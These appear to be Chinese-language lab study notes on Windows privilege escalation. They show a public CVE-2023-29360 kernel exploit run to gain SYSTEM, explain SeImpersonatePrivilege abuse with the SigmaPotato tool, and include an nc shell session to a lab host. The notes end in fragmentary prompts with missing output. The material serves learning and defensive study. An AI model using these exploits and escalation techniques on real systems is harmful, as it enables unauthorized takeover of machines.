 可以查看 [Microsoft Security Response Center](https://msrc.microsoft.com/) 的 Security vulnerabilities\
其中 [CVE-2023-29360](https://github.com/sickn3ss/exploits/tree/master/CVE-2023-29360/x64/Release) 提供了 exploit code 和  pre-compiled version exploit 。在漏洞的官方網站 MSRC，[微軟應該會根據漏洞提供 patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-29360)，patch 編號為 KB5027215，但我們在目標機器上沒有看到 (代表未修補)。

#### 3. 嘗試使用 public exploit
```
PS C:\Users\steve\Desktop> whoami
clientwk220\steve
PS C:\Users\steve\Desktop> .\CVE-2023-29360.exe
[+] Device Description: Microsoft Streaming Service Proxy
Hardware IDs:
        "SW\{96E080C7-143C-11D1-B40F-00A0C9223196}"
[+] Device Instance ID: SW\{96E080C7-143C-11D1-B40F-00A0C9223196}\{3C0D501A-140B-11D1-B40F-00A0C9223196}
[+] First mapped _MDL: 25f9aa00140
[+] Second mapped _MDL: 25f9aa10040
[+] Unprivileged token reference: ffffd1072dde6061
[+] System token reference: ffffd1071de317d5
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

C:\Users\steve\Desktop>whoami
nt authority\system
```
> public exploit 成功提權，以上是利用 Kernel Exploit 的方式

>[!Important]
>**濫用 Windows 特權（Privilege Abuse**）\
>Windows 作業系統中的某些 Privileges 允許特定使用者執行敏感操作，例如：
`SeImpersonatePrivilege`（冒充權限）\
`SeBackupPrivilege`（備份權限）\
`SeDebugPrivilege`（除錯權限）\
若 whoami /priv 顯示 SeImpersonatePrivilege，表示 attacker 可以利用它來提權。

>[!Important]
>**Named Pipe 進行提權**\
>建立惡意 Named Pipe、誘導高權限服務連線、冒充 SYSTEM\
>工具：[SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)
>> 專門利用 `SeImpersonatePrivilege` 來進行權限提升。\
透過 Named Pipe 來誘導 NT AUTHORITY\SYSTEM 連線，最終讓攻擊者執行高權限命令或獲取 SYSTEM shell。

### SigmaPotato
以下範例利用 SigmaPotato 提權
#### 1. 查看使用者權限
```
┌──(chw㉿CHW)-[~]
└─$ nc 192.168.175.220 4444
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dave>whoami /priv
whoami /priv

PRIVILEGES INFORMATION


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir